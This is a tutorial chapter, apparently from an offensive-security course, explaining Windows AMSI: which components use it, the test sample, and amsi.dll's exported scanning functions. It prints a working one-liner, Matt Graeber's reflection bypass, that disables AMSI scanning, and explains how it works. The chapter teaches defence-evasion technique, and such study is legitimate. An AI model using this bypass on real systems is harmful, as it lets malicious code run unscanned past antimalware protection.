

# AMSI (Anti-Malware Scanning Interface)

> WARNING : Amsi.dll is loaded into every powershell.exe process, but when running dotnet (csharp) binaries, amsi integrates directly with the clr which loads AMSI on demand. Amsi Bypasses that work in powershell don't necessariy work for the CLR integration.

AmsiScanBuffer
AmsiScanString
AssemblyLoad

Show api calls made (user to kernel/syscall)

Languages
-- -
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)




AMSI
-- -

Introduced in June 2015.

The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.  

AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.

The AMSI feature is integrated into these components of `Windows 10`:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell `v5` (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic 
- Office365 (JavaScript/VBA)  
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - ***NEW***

> **Runtime – Antimalware Scanning for All Assemblies** : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.

[https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)

.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.

In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:

- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher

[https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)

>Runtime – Antimalware Scanning for All Assemblies
>In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
>
>.NET Framework 4.8 (released April 18th on Windows 10) triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
>
>**LINK** : [https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)
>
>**LINK** : [https://en.wikipedia.org/wiki/.NET_Framework_version_history](https://en.wikipedia.org/wiki/.NET_Framework_version_history)


Supported OS
---
- Windows 10 PRO/ENTERPRISE and Windows Server 2016 and later

Supported 3rd party Antivirus/EDR vendors
---
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0 
- Sophos
- Symantec (v14.3 and later)
- and a lot more...

**LINK** : [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)

To check which version of .net and the CLR is installed open a powershell prompt and type the following:

```code
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version
```


Let's see if our AMSI engine is working properly by doing a simple AMSI Test Sample (comparable to EICAR):

AMSITEST
---

```yaml
Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
```


Even funnier, when you run the following command in a powershell console, AMSI will flag it as malicious, although the powershell script is not even available on your windows machine:

```yaml
Invoke-Mimikatz
```


> **Bypassing AMSI and how it works**

As a first check, let's see in which process AMSI.dll has been loaded. Open a powershell prompt:

```powershell
Get-Process | where {$_.modules.ModuleName -eq 'Amsi.dll'}
```


We can also use `SystemInformer` (previously known as `Process Hacker`) to verify, open `System Informer`, scroll down to your powershell process, right-click and select `properties`:


Go to the `modules` tab, this will show all dll's loaded by the process, you will find the amsi.dll there indeed!


We're going to have a closer look at that AMSI.dll and see which functions it exports (more on functions later - just know that a windows program will load certain dll's from disk - these dll's contain common functions that Microsoft has made avaiable to make life a bit easier for developers :))

**Pre-requisites**: dumpbin.exe /exports file.dll (requires visual studio c++ and msvc v142)


Open the "Developer Command Prompt for Visual Studio 2019"


If we have a look at the amsi.dll's exported functions using dumpbin we see the forllowing functions are avaiable:

```bash
dumpbin c:\windows\system32\amsi.dll /exports
```

```bash
ordinal hint RVA      name

          1    0 00003860 AmsiCloseSession
          2    1 000034E0 AmsiInitialize
          3    2 00003800 AmsiOpenSession
 [+]      4    3 00003880 AmsiScanBuffer -> scans the content of buffers
 [+]      5    4 00003980 AmsiScanString -> scans the content of strings (variables)
          6    5 000039E0 AmsiUacInitialize
          7    6 00003C60 AmsiUacScan
          8    7 00003C00 AmsiUacUninitialize
          9    8 000037A0 AmsiUninitialize
         10    9 00001B00 DllCanUnloadNow
         11    A 00001B40 DllGetClassObject
         12    B 00001C80 DllRegisterServer
         13    C 00001C80 DllUnregisterServer
```

We can see here the AmsiScanBuffer and AmsiScanString functions we talked about earlier. So the question is, how to we bypass this functionality?

Luckily there are a ton of AMSI bypasses publicly available : (<https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell>)

In our next lab we'll be using "Matt Graebers Reflection method", it's a simple one-liner which uses reflection to set the `amsiInitFailed` field to `$true`, and will also work in .NET binaries, not just in PowerShell. Let's have a look how it works before we implement it.


**"Matt Graebers Reflection method"**
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### Understanding the Technique:

**How it Works in `powershell`:**

1. **Reflection:** The core of this bypass relies on .NET reflection, which allows code to inspect and modify types, fields, and methods at runtime.
2. **Targeting `amsiInitFailed`:** The code specifically targets the `amsiInitFailed` static field within the `System.Management.Automation.AmsiUtils` class. This field is used to indicate whether the AntiMalware Scan Interface (AMSI) initialization has failed.
3. **Setting to `$true`:** By setting this field to `$true`, the code effectively tells the .NET runtime that AMSI initialization has failed, causing AMSI scans to be skipped.

**How it Works in `.NET Binaries`:**

1.  **Locating `AmsiUtils`:** Just like in PowerShell, you can use reflection in C# (or other .NET languages) to locate the `System.Management.Automation.AmsiUtils` class.
2.  **Accessing `amsiInitFailed`:** You can then use reflection to access the `amsiInitFailed` static field.
3.  **Setting the Value:** Finally, you can use reflection to set the value of the `amsiInitFailed` field to `true`.

> **NOTE**: Modern `EDR` solutions are designed to detect such reflection-based attacks. They often monitor for suspicious memory modifications and code behavior. `EDR`'s will hook functions and rely heavily on telemtry such as `ETW providers` (***hint*** ***hint***), of course these can also be bypassed. For now we focus on AV bypassing. 

In the next chapter we will briefly go over ETW and then we'll apply our knowledge on how to bypass `AMSI` and `ETW` in our next lab!

